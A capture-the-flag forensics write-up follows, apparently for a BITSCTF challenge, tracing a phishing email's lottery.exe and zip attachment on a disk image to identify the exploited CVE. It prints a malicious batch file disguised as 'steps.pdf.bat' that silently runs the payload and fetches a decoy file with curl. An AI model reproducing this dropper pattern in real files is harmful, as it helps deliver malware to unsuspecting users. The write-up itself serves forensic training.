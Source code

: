 # 0.69 day

## Solving

```
MogamBro was using some really old piece of software for his daily tasks. What a noob! Doesn't he know that using these deprecated versions of the same leaves him vulnerable towards various attacks! Sure he faced the consequences through those spam mails.
```

**For this challenge I also had to search up what the flag format was finding it as->**

``Can you figure out the CVE of the exploit that the attacker used to gain access to Mogambro's machine & play around with this stuff, FLAG FORMAT : BITSCTF{CVE-YYYY-NNNNN}``

Ok so for this challenge we are being told about using mails. Now looking at the flag format ``CVE-YYYY-NNNNN`` upon looking this up we realise that ``CVE`` stands for ``Common Vulnerability and Exposure`` which is used to log publicly cybersecurity vulnerabilites. ``YYYY`` stands for the year discovered and ``NNNNN``represents the unique identifier number assigned to it.

Now looking through a possible vulnerability and the consideration of him looking through the email and pobably downloading some malcicious files that allows the attacker to cook his system

As we are lucky enough to have been provided the raw disk image ``artifacts.ad1`` we can assume we are able to view the files here using a software called [``FTK Imager``](https://www.exterro.com/thank-you-page-digital-forensics)

Looking at the email bro got got we can see 2 emails a discount email with no downloadables and another one with downloadables called ``You Won the lottery`` Opening and viewing this email we see 2 files that are downloadable ``Follow-These-Instructions.zip`` and ``lottery.exe``

![Screenshot 2025-01-04 000151](https://github.com/user-attachments/assets/a41e69e6-07d2-40e3-be11-cc7edaaf0880)

Now our assumption with most of these type of scams is the ``Follow-these-Instructions`` is opened hence causing the exe script to be run allowing for the attacker to breach them.

![image](https://github.com/user-attachments/assets/7c4aaaaf-9223-4c81-90ad-77b3ead084be)

Now looking at the ``steps.pdf.bat`` present within it we see some prolly malicious lines of codes that allow us to see how the lottery.exe is possibly being run.

![image](https://github.com/user-attachments/assets/8d144489-c717-4b9a-b94a-d4460c1f7db0)

```
if not DEFINED IS_MINIMIZED set IS_MINIMIZED=1 && start "" /min "%~dpnx0" %* && exit
@echo off
lottery.exe & start chrome -incognito https://pastebin.com/mPvzn0AD & notepad.exe secret.png.enc & curl google.com -o steps.pdf & steps.pdf
exit
```

So let's see what the bro did to open this file by seeing the processes being run We can inspect cmdline arguments, essentially when a process is launched its done through some executable that requires the cmdline help
